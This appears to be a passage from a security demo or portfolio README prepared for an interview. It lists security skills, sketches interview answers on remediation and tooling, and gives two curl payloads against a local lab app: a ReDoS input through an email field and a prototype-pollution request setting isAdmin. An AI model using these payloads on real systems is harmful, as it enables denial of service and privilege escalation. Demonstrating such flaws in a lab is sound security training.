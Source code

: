 ### Career Skills Demonstrated
✅ **Offensive Security Testing**
✅ **Vulnerability Assessment & Exploitation**
✅ **OWASP Top 10 Knowledge**
✅ **Secure Code Review**
✅ **Linux Hardening (SELinux, firewalld)**
✅ **Container Security**
✅ **Compliance Frameworks (PCI-DSS, STIG)**
✅ **Security Automation & Tooling**

---

## Additional Attack Vectors (Time Permitting)

### ReDoS (Regular Expression Denial of Service)
```bash
# Validator library ReDoS via email field
curl -X POST http://localhost:3001/account_details \
  -H 'Content-Type: application/json' \
  -d '{"email": "'$(seq -s "" -f "<" 100000)'"}'

# Causes CPU spike and application hang
```

### Prototype Pollution
```bash
# TypeORM prototype pollution
curl -X POST http://localhost:3001/api/users \
  -H 'Content-Type: application/json' \
  -d '{"__proto__": {"isAdmin": true}}'
```

### Command Injection (if mysql enabled)
```bash
# SQL injection via user input
# See: exploits/shell-injection.md
```

---

## Q&A Preparation

**Q: How would you prioritize remediation?**
A: CVSS score + exploitability + business impact. Critical auth bypass first, then RCE, then XSS/CSRF.

**Q: How does this apply to Red Hat environments?**
A: Same vulnerabilities exist in RHEL deployments. We add SELinux confinement, FIPS crypto, SCAP scanning, and Insights for defense.

**Q: What tools would you use in production?**
A: Snyk/Sonatype for SCA, OWASP ZAP/Burp for DAST, SonarQube for SAST, Falco/ACS for runtime protection.
